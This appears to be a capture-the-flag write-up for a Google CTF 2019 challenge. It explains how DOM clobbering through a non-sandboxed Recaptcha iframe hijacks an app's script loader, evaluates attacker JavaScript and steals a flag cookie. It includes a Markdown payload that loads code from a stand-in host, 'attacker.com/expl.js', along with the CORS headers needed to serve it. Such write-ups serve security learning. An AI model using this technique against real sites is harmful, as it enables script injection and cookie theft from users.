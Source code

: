 ### Abusing the fact that Recaptcha adds (non-sandboxed) iframes into websites

* You cannot run scripts in the `sandbox` iframe (as its `sandbox` attribute does not include `allow-scripts` value), but Recaptcha also adds two iframes which do not have the `sandbox` attribute set, so they can run scripts
  * so redirect one of Recaptcha's iframe (not the `sandbox` one) and name it as `CONFIG`

### Hijacking application's code via DOM Clobbering

* By creating a fake DOM structure (via **DOM Clobbering**) with the help of the tricks described above, it is possible to hijack [app.js](https://github.com/koczkatamas/gctf19/blob/master/pastetastic/writeup_assets/app.js)'s code and make it to call `loadScripts` with our JS file (which will eval our code and **steal the flag** in the cookie)
  * `this.config = CONFIG.viewer[index];` (`app.js:24`)
    * `CONFIG` is our hijacked Recaptcha iframe pointing to our html file
    * our html file contains `<iframe name="viewer" src="https://pastetastic...com/view/..."></iframe>` which points to a Markdown file
      * this would not work if we used the `sandbox` iframe, as rendering Markdown requires JS, that's why we used one of Recaptcha's iframe
    * `CONFIG.viewer` is the Markdown viewer (`/view/`) page's window
    * `CONFIG.viewer[index]` (`index=0`) is the Markdown viewer page's first iframe (so the `sandbox` iframe) and this is where the rendered Markdown is
    * so `this.config` is our rendered Markdown's window
  * for loop on `this.config.dependencies` (`app.js:28`)
    * Markdown "`# dependencies`" was converted to `<h1 id="dependencies">...</h1>`
    * named elements are visible on the window (aka. on `this.config`) - again: [here is the specs](https://html.spec.whatwg.org/multipage/window-object.html#document-tree-child-browsing-context-name-property-set)
    * so `this.config.dependencies` is our `<h1>` tag (in JS it's a `[object HTMLHeadingElement]`)
    * `this.config.dependencies.length` is `undefined` as `HTMLHeadingElement` does not have a `length` property
      * we had to put `dependencies` into Markdown, because otherwise this code would've break and stop the script from running (as if `dependencies` was `undefined` then `dependencies.length` would cause a "cannot access a property of undefined" error)
    * `i < this.config.dependencies.length` is `false` as `0 < undefined == false` in JS
    * so the for loop never runs
  * for loop on `this.config.preload` (`app.js:33`)
    * same as before for `dependencies`
  * `this.loadPlugin(evt.data.lang)` (`app.js:16`)
    * `evt.data.lang` can be anything and is fully controlled by us via `postMessage` call
  * `const spec = this.config.plugins[lang];` (`app.js:53`)
    * Markdown "`# ![plugins](https://attacker.com/expl.js)`" was converted to `<h1 id="plugins"><img src="https://attacker.com/expl.js" ...></h1>`
    * `this.config.plugins` is the `<h1>` tag
    * set `lang` to `firstElementChild`
    * `this.config.plugins[lang]` is `h1`'s `firstElementChild`, so the `<img>` tag
    * `spec.requires` (`app.js:54`) is `undefined` as `HTMLImageElement` does not have an `requires` property, so this `if` is ignored
  * `this.loadScript(spec);` (`app.js:59`)
    * so `spec` is the `<img>` tag (`HTMLImageElement`)
    * `spec.integrity` (`app.js:68`) is `undefined` as `HTMLImageElement` does not have an `integrity` property, so this `if` is ignored
    * `fetch(spec.src, params)` (`app.js:71`) fetches the `<img>` tag's `src` attribute which is our exploit's URL
      * CORS should be considered, so the JS file should be served with the following headers:
        * `Access-Control-Allow-Origin: *`
        * `Access-Control-Allow-Methods: GET`

